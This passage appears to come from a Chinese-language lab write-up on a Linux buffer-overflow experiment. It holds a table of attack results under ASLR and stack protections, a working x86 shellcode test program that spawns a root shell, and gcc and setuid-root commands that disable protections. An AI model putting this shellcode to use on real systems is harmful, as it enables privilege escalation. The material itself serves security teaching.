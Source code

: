 运行代码即可发起攻击。

<img src="https://cdn.jsdelivr.net/gh/peng-yq/Gallery/img/202304131132904.png">

> 为stack程序设置setuid和修改文件所有者为root依旧不能获得root权限（已修改/bin/sh—>zsh），多次尝试后放弃。

| ASLR | 栈保护机制 | 栈可执行 | 栈不可执行 | 攻击是否成功 |
| ---- | ---------- | -------- | ---------- | ------------ |
| 否   | 否         | 否       | 是         | 是           |
| 否   | 否         | 否       | 是         | 否           |
| 是   | 是         | 否       | 是         | 否           |

**下述shellcode在设置setuid和修改文件所有者为root后可以成功获得root权限**

```c
 //shellcode_test.c
  2
  3 #include <stdio.h>
  4 #include <string.h>
  5
  6 int main(){
  7         char shellcode[] = "\x6a\x17\x58\x31\xdb\xcd\x80"
  8 "\x6a\x0b\x58\x99\x52\x68//sh\x68/bin\x89\xe3\x52\x53\x89\xe1\xcd\x80";
  9
 10         void (*fp)(void);
 11         fp = (void*)shellcode;
 12         fp();
 13
 14         return 0;
 15 }
```

编译执行。

```shell
gcc -Wall -g -o shellcode_test shellcode_test.c -z execstack -fno-stack-protector -m32
sudo chown root shellcode_test
sudo chmod u+s shellcode_test
```

<img src="https://cdn.jsdelivr.net/gh/peng-yq/Gallery/img/202304131139801.png">

## 参考资料

[1] [【Linux】GDB 入门笔记](https://imageslr.com/2023/gdb.html)

[2] [【干货分享】手把手简易实现SHELLCODE及详解](http://blog.nsfocus.net/easy-implement-shellcode-xiangjie/)

[3] [实验七-缓冲区溢出](https://www.cnblogs.com/jijunyao/p/16977168.html)

[4] [缓冲区溢出与数据执行保护DEP](https://zhuanlan.zhihu.com/p/500221354)

[5] [Buffer Overflow Linux, GDB CYBERPUNK](https://www.cyberpunk.rs/buffer-overflow-linux-gdb)
